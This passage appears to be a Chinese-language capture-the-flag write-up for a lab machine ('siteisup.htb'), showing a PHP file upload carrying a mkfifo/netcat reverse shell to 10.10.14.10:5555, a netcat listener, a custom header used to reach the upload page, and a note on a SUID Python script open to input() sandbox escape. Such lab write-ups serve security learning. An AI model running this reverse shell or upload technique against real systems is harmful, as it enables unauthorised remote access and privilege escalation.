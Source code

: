 ```
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 5555 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
The above example will output somethi
```
然后上传文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/03e0f9e3c58e477093abd3d5d2c64b80.png)

注意，我们上传文件和去访问恶意文件时，都要burp抓包加上Special-Dev: only4dev消息头

本地nc监听端口
```
nc -nvlp 5555
```
然后上传文件并去http://dev.siteisup.htb/uploads/访问

![在这里插入图片描述](https://img-blog.csdnimg.cn/082dd4590ee04250808c4370a85e88f0.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/49df71895cdf414da60c32b87ef42c52.png)

现在我们还没有用户权限，在这台机子唯一的一个用户文件夹下，发现了带有suid权限的文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/b9d0d42dfd8c431e910143393cab00e4.png)

简单来说，在这个程序执行的时候，权限是developer，我们查看一下这个py文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/ab7768fea00a484d8b0e69afa067f8dd.png)
```
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
这个程序的功能很简单，只是读取了我们输入的内容，但是input函数通过调用容易受到python沙箱逃逸的攻击
相关文章介绍：
```
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2df820238d0f40c5842d666673d08340.png)